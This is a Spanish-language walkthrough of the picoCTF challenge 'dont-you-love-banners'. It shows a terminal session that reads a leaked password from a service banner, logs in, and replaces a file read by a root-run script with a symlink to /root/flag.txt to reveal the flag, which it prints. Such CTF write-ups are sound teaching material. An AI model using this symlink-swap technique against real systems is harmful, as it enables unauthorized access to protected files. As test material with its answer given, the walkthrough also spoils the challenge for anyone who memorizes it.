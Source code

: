 # dont-you-love-banners

#### Description

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 51160`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 50616`. From the above information abuse the machine and find the flag in the /root directory.
## Hints

* Do you know about symlinks?
* Maybe some small password cracking or guessing

## Solución

Primero iniciamos nuestra instancia, una vez echo esto, nos dirigimos a nuestra terminal de ubuntu o el webshell de PicoCTF, e ingresamos el **primer `tethyns`** el cual es el: `tethys.picoctf.net 51160` y nos da nuestra contraseña que utilizaremos para la segunda `tethyns` y después damos `crt c`, enseguida ponemos el **segundo `nc tethyns`** en este caso es el: `nc tethys.picoctf.net 50616` y ponemos la contraseña que anteriormente nos dieron el cual es: 
`My_Passw@rd_@1234` y con esto estaremos dentro.

Una vez ahí ingresamos `ls -al` para ver los archivos que contiene.

Después ingresamos los siguientes comandos:
* cat text
* ls -al /root
* cat /root
* cat /root/script.py
* rm /home/player/banner
* ln -s /root/flag.txt /home/player/banner ln -s /root/flag.txt /home/player/banner

Cuando se terminen de ingresar los comandos en orden, damos un `crt C`.

Y por ultimo ingresamos este ultimo comando, que es nuestro : 
* `nc tethys.picoctf.net 50616`
El cual nos mostrara nuestra respectiva flag.

## Terminal de ejemplo

```
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 51160
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 50616
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -al /root
ls -al /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr  9 02:58 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root
cat /root
cat: /root: Is a directory
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
jazmin@DESKTOP-1CBQJ6D:~$ nc tethys.picoctf.net 50616
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password?
```

### Respuesta: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}